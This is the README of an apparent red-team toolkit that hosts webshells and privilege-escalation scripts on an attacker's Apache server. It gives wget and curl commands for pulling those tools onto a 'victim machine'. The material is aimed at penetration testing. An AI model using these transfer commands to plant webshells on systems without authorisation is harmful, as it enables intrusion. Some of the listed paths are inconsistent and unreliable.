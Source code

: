 # redteam-apache-toolkit
An apache2 webserver toolkit to enable tool downloads from attacker to target machine via http

## Installation 

To use, the redteam-apache-tookit needs to be located inside /var/www/html. There are two options to do this.  

1) Navigate inside /var/www/html, then use  
```bash
git clone https://github.com/tcbutler320/redteam-apache-toolkit.git  
```  
2) Clone the repoistory to a location of your choosing, then use 
```bash
cp -r redteam-apache-toolkit /var/www/html
```

## Features   
The toolkit includes many tools that come with the latest Kali Linux Distribution as well as some custom tools from the community. See the credits section for details. 


| Category  | Description | Path  |
|---|---|---|
|  Webshells | A collection of webhells broken down by language   |  /redteam-apache-toolkit/webshells |
| priv-escalation  |  Privelege escalation scripts for windows and unix | /redtean-apache-toolkit/priv-escalation  |
| Exploit Suggester  |  A custom exploit suggester script from the pentestmonkeys |  /redteam-apache2-toolkit/exploit-suggester |

## Usage 

1) Start the apache2 webserver 
```bash
service apache2 start
```  
2) Choose the tool you want to transfer to the victim machine   
2) Choose a method of http transfer 


| Method  | Command   |
|---|---|
| wget --recursive --no-parent  | ``` wget --recursive --no-parent http://[host-ip]/redteam-apache2-toolkit```  |
| wget  | ```wget http://[host-ip]/redteam-apache2-toolkit/[tool category]/[tool name]```  |
|  curl | ``` curl -o [name the file]  http://[host-ip]/redteam-apache2-toolkit/[tool category]/[tool name] ``` |


## Credits   
Thanks to the following for great open source tools included in this kit.   

1) [Pentestmonkey](http://pentestmonkey.net/)